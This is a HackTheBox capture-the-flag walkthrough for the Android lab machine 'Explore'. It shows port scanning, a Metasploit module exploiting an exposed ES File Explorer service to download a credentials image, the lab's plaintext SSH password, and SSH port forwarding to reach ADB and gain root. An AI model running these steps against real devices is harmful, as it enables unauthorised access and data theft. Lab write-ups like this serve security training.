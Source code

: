 ```yaml
---
title: "HackTheBox | Explore"
description: Since this was the only android box. I wanted to pwn it. ~status-quo
date: "2023-10-16T00:00:00Z"
tags: [hackthebox, android, metasploit, explore]
categories: [HackTheBox]
cover:
  image: "/assets/HTB/Explore/infopanel.png"
author: [status-quo, DaanBreur]
---
```


# Synopsis

Exploit the file sharing service to get an image of credentials, then use pivoting to get access to ADB (_Android Debug Bridge_) to get root.

# Port Scan

Lets start the enumeration of the machine by port scanning, the machine has the ip-address of `10.10.10.247`.

```bash
nmap 10.10.10.247
#Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 21:50 CEST
#Nmap scan report for 10.10.10.247
#Host is up (0.028s latency).
#Not shown: 65530 closed tcp ports (conn-refused)
#PORT      STATE    SERVICE
#2222/tcp  open     EtherNetIP-1
#5555/tcp  filtered freeciv
#36869/tcp open     unknown
#42135/tcp open     unknown
#59777/tcp open     unknown
```

There seems to be some ports open.
It looks like that there is an SSH server running on port `2222`.

```bash
nc 10.10.10.247 2222
#SSH-2.0-SSH Server - Banana Studio
```

We don't have any credentials so we will return to it once we manage to get credentials.
Port `42135` and `59777` seem to be supporting the **HTTP** protocol.
After some more enumeration, quite literally googling the port numbers, I was able to discover a vulnerable version of **_ES File Explorer_** was running.

# Getting User

Since this is an easy box we probably could use **Metasploit**, after searching we indeed find some Metasploit scripts.

```bash
msf6 > use auxiliary/scanner/http/es_file_explorer_open_port
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set RHOST 10.10.10.247
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.10.10.247:59777   - Name: VMware Virtual Platform
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Running this script shows us that this is indeed a vulnerable version of **_ES File Explorer_**. We are also able to list some files.

```bash
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set action LISTPICS
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.10.10.247:59777
  concept.jpg (135.33 KB) - 4/21/21 02:38:08 AM: /storage/emulated/0/DCIM/concept.jpg
  anc.png (6.24 KB) - 4/21/21 02:37:50 AM: /storage/emulated/0/DCIM/anc.png
  creds.jpg (1.14 MB) - 4/21/21 02:38:18 AM: /storage/emulated/0/DCIM/creds.jpg
  224_anc.png (124.88 KB) - 4/21/21 02:37:21 AM: /storage/emulated/0/DCIM/224_anc.png
```

The file, `creds.jpg`, sounds interesting lets download it and inspect its contents.

```bash
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set ACTIONITEM /storage/emulated/0/DCIM/creds.jpg
ACTIONITEM => /storage/emulated/0/DCIM/creds.jpg
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.10.10.247:59777   - /storage/emulated/0/DCIM/creds.jpg saved to /home/status-quo/.msf4/loot/20231016150813_default_10.10.10.247_getFile_644222.jpg
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

![](images/credentials.png)

Opening the file we indeed see something interesting, it looks like a username and password.
These might be the much needed ssh credentials: `kristi:Kr1sT!5h@Rp3xPl0r3!`

Lets try to connect.

```bash
ssh kristi@10.10.10.247 -p 2222 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa
```

And we are successfully connected, lets get the flag. If you never did anything with android before the flag might be hard to find.
It's in the `storage/emulated/0/` directory ([_"where is the home folder on android.stackexchange.com"_](https://android.stackexchange.com/questions/64046/where-is-the-home-folder))

```bash
cat /storage/emulated/0/user.txt
# REDACTED
```

# Getting Root

Returning to our nmap scan, there was a filtered port which we could now reach using SSH pivoting.

```bash
ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa
```

Port 5555 is commonly known as the adb port https://book.hacktricks.xyz/network-services-pentesting/5555-android-debug-bridge

```bash
adb shell
adb root
cat /data/root.txt
# REDACTED
```
